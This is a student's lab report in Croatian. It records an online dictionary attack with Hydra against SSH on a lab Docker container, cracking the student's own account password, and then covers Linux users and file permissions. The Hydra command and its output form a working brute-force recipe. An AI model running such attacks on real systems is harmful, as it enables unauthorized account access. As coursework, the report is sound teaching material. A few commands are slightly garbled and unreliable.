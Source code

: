 # Peta i šesta laboratorijska vježba

## **Peta vježba**

Kroz ovu vježbi smo radili online password guessing attack. Probali smo koristeći unaprijed definirani dictionary pronaći lozinku iz njega koja se podudara s mojim korisničkim imenom na Docker containeru. S obzirom da smo radili online napad aktivno smo kontaktirali server i pokušavali se prijaviti direktno na određenu IP adresu.

```bash
Microsoft Windows [Version 10.0.19043.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Users\A507>wsl
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ wget -r -nH -np --reject "index.html*" http://a507-server.locary/g3/dictionar
--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/
Resolving a507-server.local (a507-server.local)... 10.0.1.172, fe80::aaa1:59ff:fe69:5278
Connecting to a507-server.local (a507-server.local)|10.0.1.172|:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘dictionary/g3/index.html.tmp’

dictionary/g3/index.html.tmp      [ <=>                                              ]   4.59K  --.-KB/s    in 0s

2022-01-11 11:03:36 (259 MB/s) - ‘dictionary/g3/index.html.tmp’ saved [4700]

Loading robots.txt; please ignore errors.
--2022-01-11 11:03:36--  http://a507-server.local:8080/robots.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 404 Not Found
2022-01-11 11:03:36 ERROR 404: Not Found.

Removing dictionary/g3/index.html.tmp since it should be rejected.

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_offline.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 350546 (342K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_offline.txt’

dictionary/g3/dictionary_offl 100%[=================================================>] 342.33K  --.-KB/s    in 0.03s

2022-01-11 11:03:36 (11.7 MB/s) - ‘dictionary/g3/dictionary_offline.txt’ saved [350546/350546]

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_online.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 3346 (3.3K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_online.txt’

dictionary/g3/dictionary_onli 100%[=================================================>]   3.27K  --.-KB/s    in 0s

2022-01-11 11:03:36 (287 MB/s) - ‘dictionary/g3/dictionary_online.txt’ saved [3346/3346]

FINISHED --2022-01-11 11:03:36--
Total wall clock time: 0.09s
Downloaded: 3 files, 350K in 0.03s (12.0 MB/s)

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l jukic_marija -P dictionary/g3/dictionary_online.txt 10.0.15.0 -V -t
4 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-01-11 11:05:27
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 478 login tries (l:1/p:478), ~120 tries per task
[DATA] attacking ssh://10.0.15.0:22/
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtal" - 1 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajpgz" - 2 of 478 [child 1] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtnj" - 3 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajplk" - 4 of 478 [child 3] (0/0)
....
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtlp" - 331 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtgz" - 332 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "cowona" - 333 of 478 [child 3] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "thened" - 334 of 478 [child 1] (0/0)
[22][ssh] host: 10.0.15.0   login: jukic_marija   password: thened
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-01-11 11:11:04
```

Uspjela sam pronaći lozinku koja je bila unutar dictionaryja koja se podudarala s lozinkom na docker containeru s mojim imenom. Nažalost statistika nije bila na mojoj strani, pa se moja lozinka nalazila na drugoj polovici dictionaryja pa je za pronalazak podudaranja trebalo malo više vremena.

S obzirom na ograničeno vrijeme nismo stigli napraviti offline password guessing attack.

## Šesta vježba

Kroz ovu vježbu smo učili kako upravljati korisničkim računima na linuxu, odnosno istraživali smo kontrolu pristupu.

U Linux-u svaka datoteka ili program (binary executable file) ima vlasnika (user or owner). Svakom korisniku pridjeljen je jedinstveni identifikator User ID (UID). Svaki korisnik mora pripadati barem jednoj grupi (group), pri čemu više korisnika može dijeliti istu grupu. Linux grupe također imaju jedinstvene identifikatore Group ID (GID).
S id provjeravamo identifikatore uid i gid za korisnika te pripadnost grupama.
Kad koristimo sudo to nam daje administratorska prava tj. s time dokazujemo da pripadamo grupi sudo.
```bash
sudo adduser alice3
sudo adduser bob3
```
S ovom komandom kreiramo nove korisnike koji pripadaju određenim grupama i imaju određeni uid i guid.
Da bi ušli u ove korisničke račune koristimo sljedeću naredbu:
```bash
sudo - alice3
exit
```
Exit koristimo unutar shella korisnika za vraćanje na shell s administratorskim ovlastima.
Česte linux komande su mkdir za kreiranje novih direktorija, cd za ulazak ili cd.. za izlazak iz nekog direktorija, za ispis nekog filea koristimo cat.
Kreiramo neki file s tekstom na sljedeći način:
```bash
echo "Hello world" > security.txt
```
Naredbama ls -l ili getfacl prikazujemo informacije o direktoriju i datotekama
```bash
alice3@DESKTOP-7Q0BASR:~/SRP$ getfacl security.txt
file: security.txt
owner: alice3
group: alice3
user::rw-
group::rw-
other::r--
```
Za file security.txt alice3 moze čitati i pisati unutar njega kao i user. Dok svi ostali korisnici mogu samo čitati taj file
